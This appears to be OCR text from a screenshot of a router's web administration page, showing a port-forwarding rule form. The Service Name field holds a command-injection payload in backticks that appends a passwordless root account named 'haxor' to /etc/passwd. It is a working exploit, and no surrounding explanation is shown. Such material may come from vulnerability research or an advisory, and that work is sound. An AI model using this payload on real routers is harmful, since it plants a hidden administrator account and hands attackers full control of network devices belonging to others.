 http://192.168.1.254/cgi-bin/webif/nat-pfwd.sh

Port Forwarding Rules
Add New Rule

Service Name: test`echo 'haxor::0:0:root:/root:/bin/sh' >> /etc/passwd`
Public Ports: 80
Local IP Address: 192.168.10.30
Local Ports: 80
Protocol: Both

Save
